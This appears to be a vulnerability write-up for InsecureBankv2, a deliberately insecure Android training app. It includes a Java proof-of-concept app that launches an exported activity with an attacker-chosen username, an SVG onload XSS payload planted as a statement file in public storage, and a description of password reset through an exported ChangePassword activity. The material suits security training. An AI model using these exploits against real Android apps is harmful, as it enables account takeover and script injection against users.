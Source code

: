 Reads from external storage which is public `getExternalStorageDirectory()` Statements_admin.html

PoC app:

```Java 

package b3nac.injuredandroid.poc;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent start = new Intent();
        start.setClassName("com.android.insecurebankv2", "com.android.insecurebankv2.ViewStatement");
        start.putExtra("uname", "jack");

        startActivity(start);
    }

}


```

PoC file `Statements_jack.html`:

```html

<html>
<svg onload=alert('💩')>
</html>

```

---

## ChangePassword Activity

### Account tackover via user accepted intent `uname`

<activity android:label="@string/title_activity_change_password" android:name="com.android.insecurebankv2.ChangePassword" android:exported="true"/>

After providing a user that exists the ChangePassword Activity is presented and you can reset the password to whatever you want.
